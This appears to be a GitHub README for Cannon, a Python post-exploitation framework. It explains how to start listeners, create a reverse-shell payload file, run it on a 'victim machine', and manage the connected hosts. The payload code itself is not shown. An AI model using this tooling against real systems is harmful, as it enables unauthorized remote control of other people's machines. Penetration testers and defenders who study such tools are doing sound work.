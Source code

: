 # Cannon

![image](https://user-images.githubusercontent.com/85458014/124807053-bfda1a00-df33-11eb-9a56-6f3e38db2dab.png)

Cannon is a post-exploitation framework fully developed in python3. Once you have access to the system, this will make your work much easier with all the functionalities that this tool possesses. You will be able to download and upload files, run pre-defined modules, harvest reverse shells, and many more. This version of Cannon mainly focuses on attacking Unix-based machines. Most of the utilities that this framework carries based on Unix-based systems. But some of the functions will still work in Windows systems as well.

# Installation

`git clone https://github.com/kavishkagihan/Cannon/cannon.git && cd cannon && chmod +x cannon`

# Setup

Once you have this installed, you can run it.

`./cannon `

This will start the listener on our loopback address with the default port. If you want to use a different IP and a port you can also specify them.

`./cannon 192.168.1.102 4444`

Then you can use the `help` command to see the help menu.

# Usage

1.Creating the payload file.

After you run cannon, you can create a payload file, which conains the payload to be executed in the victim machine. You have to specify the port which you are listening on. 

`create 9001`

Payload will be saved in a file with the name of the 'SHELL_FILE' variable (defualt is cannon.shell)
![image](https://user-images.githubusercontent.com/85458014/124819453-a7bdc700-df42-11eb-9158-a37c2c8b4638.png)



2. Executing the payload

Then you can simply execute the shell on the victim machine

`python3 cannon.shell`


3. Cheking the conenctions

Once you have executed the payload, you can check if you have the conenction from the paylaod.

`list`
![image](https://user-images.githubusercontent.com/85458014/124819508-b7d5a680-df42-11eb-8ea6-106123b5b64e.png)


4. Interate with a connected host

You can interact with a connected host with the 'connect' command.The hosts number should be given as an argument. You can check the number of the host with 'list'

`connect 1`


5. Disconenct a host

You can simply disconnect an unwanted host with the 'disconnect'  command.The hosts number should be given as an argument. You can check the number of the host with 'list'

`disconnect 1`

![image](https://user-images.githubusercontent.com/85458014/124819595-cf149400-df42-11eb-8def-ebb585a395fa.png)


6. Start another listener

You also can start another listner and get conenctions through that port. The port to start the listner on should be given as an argument.

`bind 9002`

![image](https://user-images.githubusercontent.com/85458014/124819627-db005600-df42-11eb-9cca-36759508af4e.png)


7. Stop a listener

When you want to stop an active listener you can use the 'kill' command. As an argument, the port of the listener should be specified.

`kill 9002`
![image](https://user-images.githubusercontent.com/85458014/124819669-e6ec1800-df42-11eb-80c8-93a97573abe9.png)


8. Check the statistics

With the 'status' command you can list the current status such as the Internet status, Listeners IP and PORT, number of listeners and the number of hosts connected.

`status`
![image](https://user-images.githubusercontent.com/85458014/124819922-3a5e6600-df43-11eb-82f8-4f64cf31d670.png)



















